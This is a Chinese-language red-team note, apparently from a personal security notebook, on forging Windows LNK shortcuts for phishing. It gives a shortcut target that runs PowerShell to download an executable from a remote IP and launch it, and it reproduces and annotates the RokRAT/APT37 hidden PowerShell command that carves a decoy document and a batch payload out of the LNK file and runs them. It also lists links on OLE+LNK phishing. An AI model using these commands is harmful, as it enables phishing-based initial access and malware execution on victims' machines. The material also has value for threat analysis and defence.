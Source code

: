 # LNK伪造

## LNK+Powershell

> [疑似BITTER组织利用LNK文件的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s/TbiXJ359ZXOyQYWsfVDwGA)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)

新建一个快捷方式然后修改目标为如下信息:

```cmd
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iwr http://100.1.1.131:8000/download/local/Code.exe -outfile $env:TEMP\Code.exe;start-process $env:TEMP\Code.exe
```

![image-20240626114316470](http://cdn.ayusummer233.top/DailyNotes/202406261143196.png)

当受害者点击该快捷方式后则会调起powershell下载恶意程序并执行上线shell

![image-20240626114445251](http://cdn.ayusummer233.top/DailyNotes/202406261144336.png)

---

## Office OLE + LNK

> [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

- [Office OLE + LNK - Google Search](https://www.google.com/search?q=Office+OLE+%2B+LNK&sca_esv=93393d72ee4371e2&sxsrf=ADLYWIKiLlirDtoqCKRrQ_Fnz6WimgY8yg%3A1719480748554&ei=rDF9Zoe7IcyA1e8P5ZCjwAI&ved=0ahUKEwiHwdz5vPuGAxVMQPUHHWXICCgQ4dUDCBA&uact=5&oq=Office+OLE+%2B+LNK&gs_lp=Egxnd3Mtd2l6LXNlcnAiEE9mZmljZSBPTEUgKyBMTksyBRAhGJ8FSOEgULkDWNMdcAN4AZABAZgB0AGgAdANqgEGMS4xMS4xuAEDyAEA-AEBmAIPoALGDMICChAAGLADGNYEGEfCAgQQIxgnwgIIEAAYgAQYogTCAgUQIRigAcICCxAAGIAEGJECGIoFwgIFEAAYgATCAgYQABgWGB7CAgoQABgWGAoYHhgPwgIIEAAYFhgeGA_CAggQABgWGAoYHsICCxAAGIAEGIYDGIoFmAMAiAYBkAYFkgcENC4xMaAHmjA&sclient=gws-wiz-serp)
- [Issues in OLE link from Excel to Word for Windows - Microsoft Community](https://answers.microsoft.com/en-us/msoffice/forum/all/issues-in-ole-link-from-excel-to-word-for-windows/c93d2e18-8404-4a51-82f4-d3c0da8151da)
- [Abusing LNK "Features" for Initial Access and Persistence (v3ded.github.io)](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)
- [Phishing: OLE + LNK | Red Team Notes (ired.team)](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk)

---

## APT

### ROKRAT

> [RokRAT（恶意软件家族） --- RokRAT (Malware Family) (fraunhofer.de)](https://malpedia.caad.fkie.fraunhofer.de/details/win.rokrat)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)
>
> [安全星图平台 (dbappsecurity.com.cn)](https://starmap.dbappsecurity.com.cn/blog/articles/2023/04/27/apt37-rokrat/)
>
> [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> [猎影追踪：APT37利用朝鲜政治话题针对韩国的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA%3D%3D&mid=2247496455&idx=1&sn=0e3af7d734671a41c9d796e7f33b085d&chksm=f9ed9fb8ce9a16ae8e9714f116e0812994e0e3d13eb75d05182e623372fc5b979d70cf403f39&scene=178&cur_album_id=1375769135073951745)

```cmd
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden $dirPath = Get-Location; if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; $pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
^& $pdfPath; $exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; $exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; ^& $exePath;
```

```powershell
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden 
# 获取当前路径
$dirPath = Get-Location; 
# 如果当前路径包含system32或者Program Files，则将 dirPtah 设置到临时目录
if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};
# 获取 dirPath 下文件大小为0x0001DAB452的
$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;
# Get-Contet 一次性获取 Lnkpath 对应文件开头的 65446 字节 存储到 $pdfFile
$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; 
$pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; 
# Set-Content 跳过 $pdfFile 的前 2470 字节将剩余内容 写入到 $pdfPath
sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
# 运行 $pdfPath
^& $pdfPath; 
# 一次性获取 Lnkpath 对应文件开头的 68696 字节 存储到 $exeFile
$exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; 
$exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; 
# Set-Content 跳过 $exeFile 的前 65446 字节将剩余内容 写入到 $exePath
sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; 
# 运行 $exePath
^& $exePath;
```

具体分析可以参阅 [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

## 相关链接

- [钓鱼姿势汇总 - 简书 (jianshu.com)](https://www.jianshu.com/p/dcd250593698)
- TODO
  - [钓鱼攻击之：Lnk 文件钓鱼 - f_carey - 博客园 (cnblogs.com)](https://www.cnblogs.com/f-carey/p/16542156.html#tid-eeTEc7)


---





